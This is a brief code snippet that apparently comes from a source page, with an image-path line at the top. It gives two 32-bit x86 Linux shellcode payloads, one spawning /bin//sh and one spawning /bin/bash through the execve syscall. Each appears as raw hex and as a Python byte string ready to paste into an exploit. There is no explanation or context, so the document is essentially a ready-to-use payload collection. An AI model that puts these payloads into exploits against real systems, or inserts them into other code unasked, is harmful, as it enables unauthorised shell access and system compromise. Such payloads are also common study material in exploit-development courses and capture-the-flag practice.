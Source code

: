 # sh (32-bit)
31c050682f2f7368682f62696e89e3505389e131d231c0b00bcd80

shellcode= (
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50"
   "\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')


# bash (32-bit)
31c050b0685031c0682f626173682f62696e89e3505389e131d231c0b00bcd80

shellcode= (
   "\x31\xc0\x50\xb0\x68\x50\x31\xc0\x68\x2f\x62\x61\x73\x68\x2f\x62"
   "\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')
